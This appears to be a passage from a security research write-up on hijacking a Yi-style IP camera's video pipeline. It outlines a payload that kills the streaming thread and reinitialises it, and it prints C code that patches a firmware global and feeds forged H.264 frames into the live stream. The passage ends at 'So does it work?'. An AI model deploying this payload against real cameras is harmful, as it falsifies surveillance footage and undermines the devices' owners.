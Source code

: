 With these functions in mind, the payload strategy became as follows:
- Kill off the existing thread by setting **yi_av.ctrl.vi_run_flag** to 0
- Call **yi_video_deinit** to reset everything to a clean state
- Execute our function that will essentially run a slightly modified **yi_video_init** function, but the thread will be created with a function that we control
- The thread function will be a modified **yi_live_video_thread** that sends whatever data we want instead of the result of **ak_venc_get_stream**

I'll omit the majority of the code as its pretty ugly, and most of it is very similar to the functions above (and struct definitions), but here is the thread function that does the heavy lifting:

```
-c
// this is basically what the binary does, except we replace the data and length
while (arg->run_flag != 0){
	// set switchFileTime global
	time_t current_time = get_time((time_t) 0x0);
	uint32_t* g_switchFileTime_addr = (uint32_t*) 0x4b98d8;
	*g_switchFileTime_addr = current_time;
	  
	// get fps for h264 buffer stuff
	uint32_t fps = ak_venc_get_fps(arg->venc_handle);
  
	// fetch the current stream to steal ts and sequence number
	if (ak_venc_get_stream(arg->stream_handle, &stream) == 0){
		my_stream.ts = stream.ts;
		my_stream.seq_no = stream.seq_no;
  
		// add to the h264 stream buffer
		platform_streamer_buffer_h264(1, my_stream.frame_type, stream.ts, fps, 0x20, my_stream.data, my_stream.len);
		ak_venc_release_stream(arg->stream_handle, &stream);
		mssleep(5);
	} else {
		mssleep(10);
	}
}
```

You can see that I am basically just spamming iframes at the camera that I control, the stream bytes were generated by using **ffmpeg** to convert png's to a h264 file, and then extracting the frame from there. So does it work?
